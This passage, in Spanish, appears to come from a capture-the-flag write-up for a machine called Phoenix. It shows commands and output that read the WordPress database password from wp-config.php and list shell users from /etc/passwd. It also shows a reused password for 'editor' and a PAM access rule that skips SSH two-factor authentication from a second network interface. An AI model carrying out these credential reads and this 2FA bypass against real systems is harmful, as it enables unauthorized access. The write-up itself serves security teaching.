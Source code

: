 Tengo asignada otra intefaz

```null
wp_user@phoenix:~/wordpress/wp-admin$ hostname -I
10.10.11.149 10.11.12.13 dead:beef::250:56ff:feb9:62ff 
```

En el ```wp-config.php``` están las credenciales de acceso a la base de datos

```null
/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', '<++32%himself%FIRM%section%32++>' );
```

Listo los usuarios

```null
wp_user@phoenix:~/wordpress$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
phoenix:x:1000:1000:Phoenix:/home/phoenix:/bin/bash
editor:x:1002:1002:John Smith,1,1,1,1:/home/editor:/bin/bash
```

La contraseña ```superphoenix``` es válida para el usuario ```editor```, pero me pide un código de verificación. En el archivo de configuración de SSH se está incluyendo esta regla

```null
wp_user@phoenix:/$ cat /etc/pam.d/sshd | grep -v "^#" | grep .
@include common-auth
auth [success=1 default=ignore] pam_access.so accessfile=/etc/security/access-local.conf
auth required pam_google_authenticator.so nullok user=root secret=/var/lib/twofactor/${USER}
account    required     pam_nologin.so
@include common-account
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so close
session    required     pam_loginuid.so
session    optional     pam_keyinit.so force revoke
@include common-session
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
session    optional     pam_mail.so standard noenv # [1]
session    required     pam_limits.so
session    required     pam_env.so # [1]
session    required     pam_env.so user_readenv=1 envfile=/etc/default/locale
session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so open
@include common-password
```

Para la otra intefaz no lo requiere

```null
wp_user@phoenix:/$ cat /etc/security/access-local.conf
+ : ALL : 10.11.12.13/24
- : ALL : ALL
```
